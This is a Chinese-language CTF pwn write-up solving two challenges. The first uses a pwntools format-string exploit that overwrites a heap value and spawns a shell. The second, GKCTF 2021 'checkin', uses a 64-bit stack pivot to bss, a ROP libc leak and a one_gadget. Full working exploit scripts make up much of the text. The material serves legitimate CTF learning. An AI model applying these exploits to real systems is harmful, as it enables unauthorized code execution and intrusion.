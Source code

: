 # [Pwn]复健

没啥好说的，复健

## 1.攻防世界-string

自动化计算格式化字符串的偏移

```
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
p = process('./1')
#p = remote('111.200.241.244', 59620)
e = ELF('./1')
p.recvuntil("secret[1] is ")
heap_addr = (p.recv(7)).decode()
print(heap_addr)
heap_addr = int(heap_addr, 16)
print(hex(heap_addr))
pause()
p.recvuntil("name be:\n")
p.sendline("123")
p.recvuntil("So, where you will go?east or up?:\n")
p.sendline("east")
p.recvuntil("go into there(1), or leave(0)?:\n")
p.sendline("1")
p.recvuntil("'Give me an address'")
p.sendline("123")
p.recvuntil("And, you wish is:\n")


def exec_fmt(pad):
    t = process("./1")
    t.recvuntil("name be:\n")
    t.sendline("123")
    t.recvuntil("So, where you will go?east or up?:\n")
    t.sendline("east")
    t.recvuntil("go into there(1), or leave(0)?:\n")
    t.sendline("1")
    t.recvuntil("'Give me an address'")
    t.sendline("123")
    t.recvuntil("And, you wish is:\n")
    # send 还是 sendline以程序为准
    t.sendline(pad)
    return t.recv()


fmt = FmtStr(exec_fmt)
print("offset ===> ", fmt.offset)
payload = fmtstr_payload(fmt.offset, {heap_addr: 68}, 0, 'byte')
print(payload)
p.sendline(payload)
sleep(0.5)
p.send(asm(shellcraft.sh()))
sleep(0.5)
p.interactive()
```

## 2.[GKCTF 2021]checkin

![image-20211031140551303](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041803538.png)

64位下的栈迁移。小小签到题，trick真不少。

一般来说，想要实现栈迁移，一般需要利用两个

```
leave;ret;
```

32位下，由于地址长度只有四个字节，实现栈迁移比较容易，我们往往在函数地址后面紧跟着的四字节处填上leave;ret;指令的地址。如

```
p32(fake_ebp) + p32(read) + p32(leave_ret_addr) + p32(0) + p32(fake_ebp) + p32(0x100)
```

漏洞函数（sub_401974通过特征值容易判断是md5函数）：

```
int sub_4018C7()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  puts("Please Sign-in");
  putchar('>');
  read(0, s1, 0x20uLL);
  puts("Please input u Pass");
  putchar('>');
  read(0, buf, 40uLL);
  if ( strncmp(s1, "admin", 5uLL) || (unsigned int)sub_401974(buf) )
  {
    puts("Oh no");
    exit(0);
  }
  puts("Sign-in Success");
  return puts("BaileGeBai");
}
```

而64位的问题在于漏洞函数sub_4018C7的栈空间**只给溢出到rbp**，我们不能修改返回地址，那第二个leave;ret；在哪里呢？

![image-20211031141548081](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041803075.png)

其实出题人已经给我们了，如上图，sub_4018C7使用leave；ret；来结束函数，后面紧跟着的是调用它的函数sub_401876的leave；ret；

第一个leave；ret；用于将rbp指向bss段，第二个leave；ret；用于将esp也指向bss段，然后按bss段上已经构造好的ROP链执行，之后是常规的ret2libc，为了在bss段上事先构造好ROP链，需要在输入登录名时就把地址写入bss段。

**构造bss上的ROP链时还要注意两点，第一，puts函数的地址不能是puts_plt_addr**，而应该是

![image-20211031143702518](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041803017.png)

call_puts_addr = 0x4018B5，这样才能保证第一次ROP泄露出puts真实地址和libc基地址后，能够再次进入漏洞函数，从而再次利用漏洞来getshell

故payload1：输入用户名

```
payload1 = b'admin\x00\x00\x00' + p64(pop_rdi_ret) + p64(puts_got_addr) + p64(call_puts_addr)
```

payload2：输入密码

```
payload2 = b'admin\x00\x00\x00' + b'\x00' * 24 + p64(bss_name_addr)
```

如下图，迁移后，再次进入漏洞函数：

![image-20211031150830975](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041803807.png)

再次读取用户名到bss段上，0x602400处：

![image-20211031151018929](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041803429.png)

故payload3：

```
payload3 = b'admin\x00\x00\x00' + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr)
```

再次读取登录密码到栈上（这个栈已经迁移到bss段上了）：

![image-20211031151134574](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041803190.png)

这就引出了要注意的第二点：**第二，读取的密码放到0x6023f0，此时若payload4和payload2一样，会覆盖我们输入的用户名admin！**

若打算用payload4覆盖rbp为0x602400，则必定会出问题，因为payload3已经决定rbp指向的位置必须放/bin/sh的地址

故更改payload3，改用one_gadget

payload3:

```
payload3 = b'admin\x00\x00\x00' + p64(one_gadget)
```

payload4:

```
payload4 = b'admin\x00\x00\x00' * 3 + p64(one_gadget) + p64(bss_name_addr)
```

解决了覆盖问题

exp如下：

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
#p = process("./1")
p = remote('node4.buuoj.cn', 25649)
e = ELF("./1")
libc = ELF('./libc.so.6')
pop_rdi_ret = 0x401ab3
call_puts_addr = 0x04018B5
puts_got_addr = e.got['puts']
ret_addr = 0x400641
bss_name_addr = 0x602400
p.recvuntil(">")
payload1 = b'admin\x00\x00\x00' + p64(pop_rdi_ret) + p64(puts_got_addr) + p64(call_puts_addr)
p.send(payload1)
p.recvuntil(">")
payload2 = b'admin\x00\x00\x00' + b'\x00' * 24 + p64(bss_name_addr)
p.send(payload2)
puts_true_addr = u64(p.recvuntil("\x7f")[-6:].ljust(8, '\x00'))
print(hex(puts_true_addr))
libc_base_addr = puts_true_addr - libc.symbols['puts']
system_addr = libc_base_addr + libc.symbols['system']
bin_sh_addr = libc_base_addr + libc.search("/bin/sh").next()
p.recvuntil(">")
one_gadget = libc_base_addr + 0xf03a4
payload3 = b'admin\x00\x00\x00' + p64(one_gadget)
p.send(payload3)
p.recvuntil(">")
payload4 = b'admin\x00\x00\x00' * 3 + p64(one_gadget) + p64(bss_name_addr)
p.send(payload4)
p.interactive()
```

